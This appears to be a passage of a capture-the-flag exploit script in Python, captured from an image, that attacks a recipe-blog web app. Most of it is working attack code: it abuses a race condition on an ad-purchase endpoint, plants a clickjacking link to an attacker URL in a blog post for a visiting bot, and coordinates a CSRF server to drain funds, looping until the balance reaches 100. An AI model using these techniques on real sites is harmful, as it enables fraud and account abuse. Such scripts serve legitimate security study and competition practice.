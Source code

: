```python
    return True

def buy_ad_race_condition(user, recipeid, content):
    r = requests.post(BLOG_HOST + '/buyad', data={
        'ad': content,
        'recipeid': recipeid
    },
        cookies={
        'token': user['token']
    })

    if ('you need to be an advertiser to buy an ad' in r.text
            or 'not enough money' in r.text):
        print('.', end='')
        return

    if('ad already taken' in r.text
       or 'UNIQUE constraint failed' in r.text):
        print('V', end='')
        return

    print('?', end='')


author = generate_random_user('author')
register(author)
login(author)

advertiser = generate_random_user('advertiser')
register(advertiser)
login(advertiser)

post_payload = f'''
<a href="{ATTACK_URL}" style="background-color: red; width:300px; height:100px; position: absolute; right: 0px; top: 0px;"></a>
'''
recipeid_clickjacking_1 = new_post(author, post_payload)
recipeid_get_money = new_post(author, 'ciao')

print(author)
print(advertiser)

while(True):
    print(
        f'\n\nSet the csrf server to buy the ad of post: {recipeid_get_money}')
    print(
        f'Make the bot visit the post with recipeid: {recipeid_clickjacking_1}')

    input('\nEnter to continue...')

    balance = get_user_balance(author)

    print(f'\nBalance: {balance}\n')

    if(balance >= 100):
        break

    print('Retry')


while (True):
    recipeid_attack = new_post(author, 'ciao')
    if (recipeid_attack[:2] == 'cb'):
```